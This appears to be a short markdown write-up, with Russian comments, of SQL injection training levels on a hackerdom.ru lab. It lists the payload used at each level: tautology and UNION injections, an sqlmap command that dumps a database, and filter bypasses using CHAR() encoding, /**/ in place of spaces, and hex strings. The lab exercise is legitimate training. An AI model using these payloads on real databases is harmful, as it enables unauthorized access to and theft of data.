

### 1
```
SELECT * FROM users WHERE id=12
```
### 2
```
' or id=9 --'
```

### 3
```
' or id=13 -- 
```

### 4
```
' UNION select * from secret  -- 
```

### 5
```
sqlmap -u https://sql.training.hackerdom.ru/5sdfkjsdk.php?text= --random-agent -D sql_level5 --tables _t secrets --columns -dump

```

### 6

```
0 or login=CHAR(103,111,100) 

Нам запретили кавычки поэтому жостаем бога вот таким способом
```

### 7 
```
0/**/union/**/select/**/*/**/from/**/users/**/where/**/login/**/like/**/0x25676525

Запретили вообще всмеЁ поэтому выкручивемся, ибо пробелы можно записывать как /**/ 

```
ы
### 8 
Дальше прям душно.   Вот пруфы, что дошел
```

```